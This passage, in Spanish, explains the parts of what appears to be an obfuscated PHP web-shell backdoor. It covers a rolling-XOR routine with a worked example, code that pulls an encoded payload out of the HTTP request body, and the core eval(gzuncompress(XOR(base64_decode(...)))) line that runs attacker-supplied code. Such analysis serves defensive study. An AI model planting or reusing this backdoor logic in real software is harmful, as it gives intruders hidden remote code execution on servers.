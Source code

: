 * Recorre el texto **\$t** (ya sea plaintext o ciphertext) y, byte a byte, lo combina con la clave **\$k** de manera cíclica (cuando llega al final de **\$k**, vuelve al principio).
* El operador `^` en PHP aplica XOR bit a bit entre dos caracteres (sus valores numéricos ASCII).
* Al usar la misma función `x()` para cifrar y descifrar (propiedad del XOR: *$A \oplus B$ \oplus B = A*), basta con aplicarla dos veces con la misma clave para recuperar el texto original.

**Ejemplo muy sencillo**

> Texto: `"HELLO"` (bytes `[72,69,76,76,79]`)
> Clave: `"ABC"` (bytes `[65,66,67]`)
>
> * XOR “rolling”:
>
>   * byte 0: 72 ⊕ 65 = 9
>   * byte 1: 69 ⊕ 66 = 7
>   * byte 2: 76 ⊕ 67 = 15
>   * byte 3: 76 ⊕ 65 = 13  (clave vuelve al inicio)
>   * byte 4: 79 ⊕ 66 = 13
> * Resultado (bytes `[9,7,15,13,13]`) es el ciphertext parcial.
> * Aplicando de nuevo `x(ciphertext, "ABC")` recuperamos los bytes originales.

---

## 3. Extracción del payload desde la petición

```php
if (
    @preg_match(
        "/$kh(.+)$kf/",
        @file_get_contents("php://input"),
        $m
    ) == 1
) {
    // …
}
```

1. Lee todo el cuerpo de la petición HTTP con `file_get_contents("php://input")`.
2. Busca una cadena que comience con `$kh`, termine con `$kf` y capture todo lo intermedio (`(.+)`).
3. Si hay coincidencia, en `$m[1]` queda únicamente el bloque base64 codificado que contiene el payload cifrado.

---

## 4. Decodificación y ejecución del payload

```php
@eval(
    @gzuncompress(
        @x(
            @base64_decode($m[1]),
            $k
        )
    )
);
```
